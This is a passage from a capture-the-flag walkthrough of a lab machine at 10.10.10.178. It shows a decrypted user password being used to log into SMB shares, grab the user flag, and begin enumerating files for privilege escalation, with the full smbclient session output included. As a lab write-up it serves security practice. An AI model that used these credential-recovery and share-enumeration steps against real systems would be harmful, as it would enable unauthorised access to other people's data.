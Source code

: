 ```ruby 
}
}

```
* The code above contains the same Decrypt() method in C# format. The encrypted password is
passed to the Decrypt() method along with the other parameters found in Utils .

* let's run the code with mono.

![](https://i.ibb.co/TTk8PMT/password.png)

* let's get our user flag.

```ruby

smbclient //10.10.10.178/Users -U c.smith
Enter WORKGROUP\c.smith's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jan 25 18:04:21 2020
  ..                                  D        0  Sat Jan 25 18:04:21 2020
  Administrator                       D        0  Fri Aug  9 11:08:23 2019
  C.Smith                             D        0  Sun Jan 26 02:21:44 2020
  L.Frost                             D        0  Thu Aug  8 13:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 13:02:50 2019
  TempUser                            D        0  Wed Aug  7 18:55:56 2019

		10485247 blocks of size 4096. 6545667 blocks available
smb: \> cd C.Smith
smb: \C.Smith\> ls
  .                                   D        0  Sun Jan 26 02:21:44 2020
  ..                                  D        0  Sun Jan 26 02:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 19:06:17 2019
  user.txt                            A       32  Thu Aug  8 19:05:24 2019

		10485247 blocks of size 4096. 6545667 blocks available
smb: \C.Smith\> get user.get
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \C.Smith\user.get
smb: \C.Smith\> get user.txt
getting file \C.Smith\user.txt of size 32 as user.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \C.Smith\> 
```
![](https://i.ibb.co/ThXBNQx/flag.png)

# []()Privilege Escalation

* i found interested file in The HQK dir and we know that there is unknown running services in the machine and this is our point.

```ruby

smb: \C.Smith\HQK Reporting\> ls
  .                                   D        0  Thu Aug  8 19:06:17 2019
  ..                                  D        0  Thu Aug  8 19:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 08:18:42 2019
  Debug Mode Password.txt             A        0  Thu Aug  8 19:08:17 2019
  HQK_Config_Backup.xml               A      249  Thu Aug  8 19:09:05 2019

		10485247 blocks of size 4096. 6545539 blocks available
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
```